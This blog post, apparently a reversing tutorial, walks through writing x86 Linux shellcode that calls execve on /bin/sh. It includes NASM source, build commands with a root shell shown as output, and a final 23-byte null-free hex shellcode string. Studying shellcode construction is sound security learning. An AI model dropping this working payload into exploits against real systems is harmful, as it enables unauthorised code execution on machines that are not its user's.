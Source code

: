 ```yaml
---
layout: post
title:  "Creating a simple x86 shellcode"
date:   2017-09-17 01:51:00
comments: true
disqus: true
categories: Reversing
---
```

<b><font color="red">I'm using a x64 linux to do this</font></b>

It's a simple x86 shellcode to call /bin/sh, but the first thing is understand how the sys_execve works, to do so you can access this <a href="https://syscalls.kernelgrok.com/" target="_blank">site</a> that gives to you a list with all the x86 syscalls, and the values you need to put in each register, just search for sys_execve.

The initial code bellow have all the comments to make it easy to understand how to use the sys_execve,

{% highlight Bash %}
section .data:
	cmd: db "/bin/sh",0x0
section .text:
	global _start
	_start:
		mov eax,0x0b	;use sys_execve
		mov ebx,cmd	;first arg, file to execute
		mov edx,0x0	;first parameter no usage
		mov ecx,0x0	;second parameter no usage
		int 0x80	;kernel interrupt
{% endhighlight %}

Just to test this code, lets compile it, link and execute the binary shell to get the /bin/sh

{% highlight Bash %}
root@demoniware:~/shellcode# nasm -f elf32 sh3llc0d3.asm && ld -m elf_i386 -s -o shell sh3llc0d3.o
root@demoniware:~/shellcode# ./shell
# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

But this code is not nullbyte free and it's a problem when we are working with shellcodes, so with some work I got this code,

{% highlight Bash %}
section .text:
	global _start
	_start:
		push ebp		;prologue
		mov ebp,esp		;prologue
		sub esp,10		;reserve 10 bytes on stack
		push 0x68732f6e		;send hs/n to stack
		push 0x69622f2f		;send ib// to stack
		xor eax,eax		;zero to eax
		add eax,0x0b		;add 0x0b on eax to call sys_execve
		mov ebx,esp		;mov //bin/sh(hs/nib//) to ebx
		xor edx,edx		;zero to edx first arg
		xor ecx,edx		;zero ecx second arg
		int 0x80		;kernel interrupt
{% endhighlight %}

To confirm if my code is free of nullbytes, I used this site <a href="https://defuse.ca/online-x86-assembler.htm#disassembly" target="_blank">defuse.ca</a>, that translate asm instructions to opcodes or just use objdump, and now I have a shellcode free of nullbytes with 23 bytes because the shellcode does not need the prologue

{% highlight Bash %}
\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x31\xc0\x83\xc0\x0b\x89\xe3\x31\xd2\x31\xd1\xcd\x80
{% endhighlight %}
